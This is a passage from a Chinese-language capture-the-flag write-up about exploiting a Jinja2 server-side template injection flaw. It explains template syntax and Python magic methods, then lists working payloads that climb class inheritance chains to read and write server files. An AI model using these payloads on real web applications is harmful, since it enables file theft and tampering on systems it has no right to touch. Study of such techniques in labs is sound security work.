    既然线索这么明确，那么本次寻找 flag 的方向也就很明确了：**利用 SSTI 漏洞构建恶意命令，试着找到藏起来的 flag 。**

### 寻找 flag

在构建恶意命令前，我们先了解一些 SSTI 漏洞的尝试和利用形式，以方便我们之后的步骤。

- Jinjia 模板特点
  
      {{...}}: 装载一个变量，模板渲染时，会使用传进来的同名参数变量的代表值替换
      {%...%}: 装载一个控制语句
      {#...#}: 装载一个注释，模板渲染的时候会忽视这中间的值

- Jinja2 中 for 循环的内置常量
  
  | 常量          | 说明                            |
  | ----------- | ----------------------------- |
  | loop.index  | 当前迭代的索引（从0开始）                 |
  | loop.first  | 是否是第一次迭代，返回`true` or `false`  |
  | loop.last   | 是否是最后一次迭代，返回`true` or `false` |
  | loop.length | 序列的长度                         |

- 由于在 jinja2 中是可以直接访问 python 的一些对象及其方法的，所以我们可以通过构造继承链来执行一些操作，比如文件读取，命令执行等
  
  | 魔术方法             | 说明                                   |
  | ---------------- | ------------------------------------ |
  | `__dict__`       | 保存类实例或对象实例的属性变量键值对字典                 |
  | `__class__`      | 返回调用的参数类型                            |
  | `__mro__`        | 返回一个包含对象所继承的基类元素，方法在解析时按照元组的顺序解析     |
  | `__base__`       | 返回该对象所继承的基类                          |
  | `__subclasses__` | 返回object的子类                          |
  | `__init__`       | 类的初始化方法                              |
  | `__globals__`    | 函数会以字典类型放回当前位置的全部全局变量与func_globals等价 |
  | `__bases__`      | 返回该对象所继承的类型列表                        |

- 一些常用的 payload
  
      //获取基本类
      ''.__class__.__mro__[1]
      {}.__class__.__bases__[0]
      ().__class__.__bases__[0]
      [].__class__.__bases__[0]
      object
      
      //读文件
      ().__class__.__bases__[0].__subclasses__()[40](r'C:\1.php').read()
      object.__subclasses__()[40](r'C:\1.php').read()
      
      //写文件
      ().__class__.__bases__[0].__subclasses__()[40]('/var/www/html/input', 'w').write('123')
      object.__subclasses__()[40]('/var/www/html/input', 'w').write('123')
      